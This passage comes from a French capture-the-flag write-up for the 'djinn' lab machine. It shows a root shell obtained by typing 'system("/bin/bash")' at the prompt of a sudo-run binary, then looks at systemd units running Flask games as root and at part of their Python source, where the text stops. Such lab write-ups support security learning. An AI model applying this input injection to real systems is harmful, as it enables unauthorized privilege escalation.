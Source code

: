 Quoiqu'il en soit on peut exploiter cette particularité pour obtenir un shell sans avoir à deviner le nombre :

```shellsession
sam@djinn:~$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:system("/bin/bash")
root@djinn:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant voyons un peu le code qui tournait sur le port 1337 du début. J'en retrouve la piste dans `/etc` :

```shellsession
root@djinn:/root# grep -r -i flask  /etc/
/etc/systemd/system/lfi.service:ExecStart=/bin/bash -c "/usr/local/bin/flask run --host 0.0.0.0 --port 7331"
/etc/systemd/system/game.service:ExecStart=/bin/bash -c "/usr/local/bin/flask run --host 0.0.0.0 --port 1337"
```

L'auteur a créé un service systemd :

```systemd
[Unit]
Description=game
After=network.target

[Service]
User=root
WorkingDirectory=/opt/1337
ExecStart=/bin/bash -c "/usr/local/bin/flask run --host 0.0.0.0 --port 1337"
Restart=always

[Install]
WantedBy=multi-user.target
```

Le script a un entête Python 3 :

```python
#!/usr/bin/env python3
import sys
from random import choice, randint
from pyfiglet import print_figlet

def add(a,b): return a+b
def div(a,b): return int(a/b)
def multiply(a,b): return a*b
def sub(a,b): return a-b

print_figlet("Game Time")
print("Let's see how good you are with simple maths")
print("Answer my questions 1000 times and I'll give you your gift.")

OPERATIONS = ['+', '-', "/", "*"]

def main():
    for i in range(1001):
        a = randint(1,9)
        b = randint(1,9)
        op = choice(OPERATIONS)

```